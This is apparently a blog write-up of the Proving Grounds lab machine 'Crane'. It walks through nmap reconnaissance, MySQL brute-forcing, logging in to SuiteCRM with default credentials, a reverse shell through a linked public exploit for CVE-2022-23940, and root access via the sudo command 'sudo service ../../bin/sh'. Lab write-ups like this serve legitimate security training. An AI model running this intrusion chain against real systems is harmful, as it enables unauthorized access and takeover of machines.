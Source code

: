 ```yaml
---
date: '2024-10-17'
before : '2024-10-14'
after : '2024-10-17'
title: 'Proving Grounds : Crane'
categories: ['C-SEC', 'proving_grounds', 'full-machine', 'ENG']
summary: 'Solving Crane machine from Proving Grounds'
thumbnail: '../contentImages/crane/1.png'
---
```


## 1. Recon

Starting with nmap scan as always.

```
┌──(hlee㉿hlee)-[~]                                                                     
└─$ sudo nmap 192.168.151.146 -T4 -p-                                        

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-16 14:53 EDT            
PORT      STATE SERVICE                                                      

22/tcp    open  ssh                                                          
80/tcp    open  http                                                          
3306/tcp  open  mysql                                                        
33060/tcp open  mysqlx                                                        
```

So there is a webapp besides mysql server. Let's try webapp first.


![image](../contentImages/crane/1.png)

  

So this is SuiteCrm, I've never seen it before.


```

┌──(hlee㉿hlee)-[~]
└─$ searchsploit suitecrm                          

 Exploit Title                                                              

SuiteCRM 7.10.7 - 'parentTab' SQL Injection | php/webapps/46310.txt
SuiteCRM 7.10.7 - 'record' SQL Injection | php/webapps/46311.txt
SuiteCRM 7.11.15 - 'last_name' Remote Code Execution (Authenticated) php/webapps/49001.py
SuiteCRM 7.11.18 - Remote Code Execution (RCE) (Authenticated) (Metasploit)   | php/webapps/50531.rb
Shellcodes: No Results

```

Okay, we need credentials, which we can possibly find from mysql server.

```

┌──(hlee㉿hlee)-[~]
└─$ sudo nmap 192.168.151.146 -T4 -sV -sC -p3306 --script mysql*

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-16 14:58 EDT
  

PORT     STATE SERVICE VERSION

3306/tcp open  mysql   MySQL (unauthorized)
| mysql-enum:
|   Accounts: No valid accounts found
|_  Statistics: Performed 10 guesses in 1 seconds, average tps: 10.0
|_mysql-empty-password: Host '192.168.45.247' is not allowed to connect to this MySQL server
| mysql-brute:
|   Accounts: No valid accounts found
|_  Statistics: Performed 50009 guesses in 207 seconds, average tps: 250.0

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

Nmap done: 1 IP address (1 host up) scanned in 207.15 seconds

```

Nevermind. mysql server was a rabbit hole, credential was admin:admin.  

## 2. Initial Foothold

  

After I logged in, I found out that this suitecrm is version 7.12.3  


![image](../contentImages/crane/2.png)

  
That means none of the exploits above would work. I googled some authenticated cve's. 


Then I found this one:


> https://github.com/manuelz120/CVE-2022-23940

  
I followed the step, then:


![image](../contentImages/crane/3.png)

  
I got the revshell. as I did `sudo -l`

  
![image](../contentImages/crane/4.png)

  
Cool! No password + a binary!


## 3. Privesc

I used my friend gtfobins.

> https://gtfobins.github.io/gtfobins/service/


We can simply run:  

```
sudo service ../../bin/sh
```

As I tried, I could successfully get a shell as root user.


![image](../contentImages/crane/5.png)

  
Done!

---
## Source

- Proving Grounds
- Me!